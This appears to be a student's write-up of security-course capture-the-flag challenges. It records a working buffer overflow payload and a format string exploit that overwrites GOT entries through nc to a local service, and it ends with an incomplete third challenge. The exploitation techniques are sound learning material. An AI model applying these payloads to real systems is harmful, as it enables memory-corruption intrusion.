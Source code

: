 z5181159
format-1
===========================

General overview of problems faced
-------------------------------------
Used bufferoverflow technique to overwrite memory address

List of vulnerabilities
--------------------
1. clear text string password

Steps to exploit
------------------
1. Overwrite memorry address till change is noticed in 9447
2. then change 9447 to FRND

Script/Command used
------------------
```
io = start()
print io.recvuntil("enter: ")
io.sendline("\x90"*512+"FRND")
io.interactive()
```
format-2...
=============
General overview of problems faced
-------------------------------------
Format String Vulnerability in Art of Exploitation and liveoverflow, completed bufferoverflow and format string challenges in protostar

List of vulnerabilities
--------------------
1. NO PIE
2. format specifier not used

Steps to exploit
------------------
1. Find the address of library function iin got
2. overwrite the address 1 bytes at a time

Script/Command used
------------------
```
(python -c "print '\xbc\xb4\x04\x08\xbd\xb4\x04\x08\xbe\xb4\x04\x08\xbf\xb4\x04\x08'+'%226x%3\$hhn%159x%4\$hhn%115x%5\$hhn%260x%6\$hhn'"; cat -)| nc localhost 7002
```
format-3...
=============
General overview of problems faced
-------------------------------------
Was unable to find absolute address of functions in Dynamic Relocation Records. Was able to leak memory address through do_gamble() by finding fibonacci numbers. But couldn't determine
address of library functions

List of vulnerabilities
--------------------


Steps to exploit
------------------


Script/Command used
------------------
```

```



